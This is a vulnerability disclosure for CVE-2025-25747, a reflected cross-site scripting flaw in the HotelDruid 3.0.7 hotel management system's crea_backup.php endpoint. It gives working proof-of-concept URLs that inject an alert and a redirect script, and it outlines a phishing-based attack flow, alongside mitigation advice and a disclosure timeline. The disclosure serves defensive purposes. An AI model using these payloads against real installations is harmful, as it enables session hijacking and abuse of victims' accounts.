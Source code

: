 # CVE-2025-25747 - Reflected XSS Vulnerability in HotelDruid 3.0.7

## Description

Cross Site Scripting vulnerability in DigitalDruid HotelDruid v.3.0.7 allows an attacker to execute arbitrary code and obtain sensitive information via the ripristina_backup parameter in the crea_backup.php endpoint

---

## Severity & Impact

### Impact

An attacker could trick an authenticated user into visiting a crafted URL, which would trigger malicious JavaScript in their browser. Potential consequences include:

- **Session Hijacking:** An attacker could steal session cookies, gaining unauthorized access to the user’s account.
- **Phishing or Malware Delivery:** The user could be redirected to malicious websites, or attacker-controlled scripts could inject malicious content directly into the interface.
- **Abuse of Administrative Privileges:** If exploited against an administrator, the attacker could potentially modify system settings or manipulate sensitive data.

---

## Proof of Concept (PoC)

### PoC 1 - Alert Injection

```
http://localhost/hoteldruid/crea_backup.php?anno=2025&id_sessione=<valid_session_id>&azione=SI&ripristina_backup=%22%3E%3CscrIpt%3Ealert%28%27Huy%20Vo%20Found%20This%20Vulnerability%27%29%3B%3C%2FscrIpt%3E&dati_conn=attuali&mantieni_anni=1
```

**Result:** A popup alert with the message “Huy Vo Found This Vulnerability” confirms successful XSS execution.

### PoC 2 - External Redirection

```
http://localhost/hoteldruid/crea_backup.php?anno=2025&id_sessione=<valid_session_id>&azione=SI&ripristina_backup="><scrIpt>window.location.href='https://www.facebook.com';</scrIpt>&dati_conn=attuali&mantieni_anni=1
```

**Result:** Browser automatically redirects to Facebook.

---

## Analysis

### Background

HotelDruid is an open-source property management system used to manage reservations, rooms, and invoicing for hotels, B&Bs, and other hospitality businesses. It is web-based, typically installed on local servers and accessed via browser. Given its web interface and administrative nature, strong security is crucial — especially for authenticated functions.

---

## Vulnerability Details

The `crea_backup.php` endpoint processes the `ripristina_backup` parameter without sanitization or encoding, directly reflecting user input into the page. This allows an attacker to craft a malicious URL that injects arbitrary JavaScript into the page rendered for an authenticated user.

### Key Technical Details

- **Affected Parameter:** `ripristina_backup`
- **Affected Endpoint:** `crea_backup.php`
- **Attack Type:** Reflected Cross-Site Scripting (XSS)
- **Precondition:** Requires a valid authenticated session (`id_sessione`)

### Attack Flow

1. Attacker crafts a malicious URL with the payload injected into `ripristina_backup`.
2. Attacker sends this URL to an authenticated victim (e.g., via phishing email, chat message).
3. Victim clicks the URL while authenticated, triggering the malicious JavaScript in their browser.
4. The script executes with the victim’s session context, enabling:
    - **Session cookie theft** (if HttpOnly is not set)
    - **Redirection to attacker-controlled sites**
    - **Injection of malicious content into the interface**

---

## Mitigation / Patching

### Recommendations for Developers

- **Input Validation:** Validate all user-supplied input on the server-side.
- **Output Encoding:** Properly encode all output before rendering (e.g., use `htmlspecialchars()` in PHP to encode `<` and `>` characters).
- **Content Security Policy (CSP):** Implement a strict Content Security Policy to reduce the impact of injected scripts.
- **Session Management:** Ensure sessions are not exposed in GET parameters (use secure cookies with HttpOnly and SameSite flags).

---

## Timeline and Credits

- **Discovery Date:** Januart 16, 2025
- **Vendor Notification:** January 17, 2025
- **MITRE CVE Assignment:** CVE-2025-25747, February 27 2025
- **Public Disclosure:** March 7, 2025
- **Researcher:** Huy Vo (Security Researcher)
